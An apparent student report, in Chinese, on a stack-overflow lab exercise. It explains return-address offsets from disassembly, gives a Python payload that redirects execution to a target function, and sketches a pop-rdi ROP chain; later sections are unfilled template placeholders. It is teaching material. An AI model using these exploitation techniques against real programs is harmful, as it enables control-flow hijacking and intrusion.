

# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
Problem 1 要求我们利用栈缓冲区溢出（stack buffer overflow）的相关原理，在不被程序正常控制流校验察觉的前提下，覆盖返回地址，使程序跳转到指定函数（如 touch1）执行。然后我们通过反汇编可以发现：程序在函数中使用了一个固定大小的栈缓冲区（如 char buf[XX]），用户输入通过 gets / scanf("%s") 等不做边界检查的函数写入该缓冲区，而缓冲区之后依次是：保存的寄存器（如 %rbp）-> 返回地址（RIP）。因此，只要构造超过缓冲区大小的输入，即可覆盖返回地址，使函数 ret 时跳转到我们指定的位置。所以我们的实验目标即为：从汇编代码中精确读出并计算从缓冲区起始地址到返回地址的偏移量，并将返回地址覆盖为目标函数的入口地址。

##### 1. `func` 的栈帧结构分析

`func` 的反汇编如下：

```asm
0000000000401232 <func>:
  401232: f3 0f 1e fa           endbr64
  401236: 55                    push   %rbp
  401237: 48 89 e5              mov    %rsp,%rbp
  40123a: 48 83 ec 20           sub    $0x20,%rsp
```
这几条指令完成了标准的函数建栈操作：

建立新的栈帧 + 在栈上为局部变量分配 0x20 = 32 字节空间。

##### 2. 确定缓冲区（buf）的位置

我们继续向下分析：

```asm
  401246: 48 8d 45 f8           lea    -0x8(%rbp),%rax
  40124a: 48 89 d6              mov    %rdx,%rsi
  40124d: 48 89 c7              mov    %rax,%rdi
  401250: e8 5b fe ff ff        call   4010b0 <strcpy@plt>
```

其中的关键指令是：lea -0x8(%rbp), %rax

这条指令说明：strcpy 的目标地址（第一个参数 %rdi） 是 %rbp - 0x8 ；即栈上缓冲区 buf 的起始地址为：buf = [rbp - 0x8]。而 strcpy 会一直复制，直到遇到 \0 停止，期间并不会检查目标缓冲区大小。

##### 3. 返回地址覆盖偏移量计算

在 x86-64 下，栈帧布局大致如下（高地址在上）：
```
[rbp + 8]  ← 返回地址（saved RIP）
[rbp]  ← 保存的 rbp
[rbp - 8]  ← buf 起始位置
```

因此，从 buf 起始地址到返回地址的距离为：

覆盖 buf 到 rbp：8 字节

覆盖保存的 rbp：8 字节

总偏移量：offset = 8 + 8 = 16 字节

也就是说，只要输入 超过 16 字节，就可以开始覆盖返回地址。

##### 4. 绕过正常执行路径

在程序中，存在一个用于“成功跳转”的函数 func1：

```asm
0000000000401216 <func1>:
  401216: f3 0f 1e fa           endbr64
  40121a: 55                    push   %rbp
  40121b: 48 89 e5              mov    %rsp,%rbp
  40121e: bf 04 20 40 00        mov    $0x402004,%edi
  401223: e8 98 fe ff ff        call   4010c0 <puts@plt>
  401228: bf 00 00 00 00        mov    $0x0,%edi
  40122d: e8 ee fe ff ff        call   401120 <exit@plt>
```

其入口地址为：func1 = 0x401216

如果我们将 func 的返回地址覆盖为 0x401216，那么在 ret 指令执行时，程序将直接跳转到 func1，从而绕过原本的正常执行路径, 第一个problem也就大功告成啦！

- **解决方案**：
payload 的结构如下：
```
[padding] + [func1 地址]
```

其中：padding 用于填充至返回地址，共 16 字节;地址需按小端序写入;对应的 Python payload 构造代码如下：
```py
import struct

payload  = b"A" * 16
payload += struct.pack("<Q", 0x401216)  # func1 地址，小端序 64-bit

with open("payload", "wb") as f:
    f.write(payload)
```
- **结果**：


### Problem 2:
- **分析**：
本题目标是通过栈溢出跳转目标函数，调用 `func2(int x)`，并使其参数 `x == 0x3f8`，从而进入成功分支输出成功信息后退出。

##### 1. 目标函数 `func2` 的参数检查逻辑

`func2` 的关键汇编如下：

```asm
0000000000401216 <func2>:
  401222: 89 7d fc              mov    %edi,-0x4(%rbp)
  401225: 81 7d fc f8 03 00 00  cmpl   $0x3f8,-0x4(%rbp)
  40122c: 74 1e                 je     40124c <func2+0x36>
```
说明：

func2 的第一个参数来自寄存器 %edi ，符合 x86-64 System V ABI 调用约定
若 %edi == 0x3f8，则跳转到成功分支（0x40124c）并 printf 成功信息，然后 exit(0)；否则打印失败信息并 exit(0)

因此，本题需要实现：
ret跳转到 func2（入口地址 0x401216）并在跳转前将 %rdi 设为 0x3f8。

##### 2. 漏洞函数 func：固定长度 memcpy 导致栈溢出

漏洞位于 func：
```asm
0000000000401290 <func>:
  401298: 48 83 ec 20           sub    $0x20,%rsp
  ...
  4012a4: 48 8d 45 f8           lea    -0x8(%rbp),%rax   ; dst = rbp-0x8
  4012a8: ba 38 00 00 00        mov    $0x38,%edx        ; len = 0x38
  4012ad: 48 89 ce              mov    %rcx,%rsi         ; src = input
  4012b0: 48 89 c7              mov    %rax,%rdi         ; rdi = dst
  4012b3: e8 38 fe ff ff        call   4010f0 <memcpy@plt>
  4012b9: c9                    leave
  4012ba: c3                    ret
```

关键点：

目标缓冲区位于 rbp-0x8, 但 memcpy 的拷贝长度被写死为 0x38 = 56 字节;
rbp-0x8 处仅有很小的空间（从布局看至少会覆盖保存的 rbp 和返回地址），因此 memcpy 会稳定地覆盖返回地址，造成可控的栈溢出!

##### 3. 计算覆盖返回地址所需偏移（offset）
栈帧常见布局（高地址在上）：
```
[rbp + 8]  返回地址 (saved RIP)
[rbp + 0]  保存的 rbp
[rbp - 8]  目标缓冲区起始地址（memcpy 的 dst）
```

因此，从缓冲区起始位置覆盖到返回地址所需字节数为：

offset = 8（到 saved rbp） + 8（saved rbp 大小） = 16 字节

##### 4. 设置 rdi

程序中提供了一个非常直接的 gadget 片段：
```asm
00000000004012bb <pop_rdi>:
  4012c7: 5f                    pop    %rdi
  4012c8: c3                    ret
```

注意：虽然 pop_rdi 这个符号对应的是一个带函数序言的片段，但我们只需要从 0x4012c7 这一条指令开始执行，它就是标准的：

pop rdi
ret


因此可以构造：
```
ret -> 0x4012c7(pop rdi; ret) -> 0x3f8 -> 0x401216(func2)
```
- **解决方案**：

- **结果**：附上图片

### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
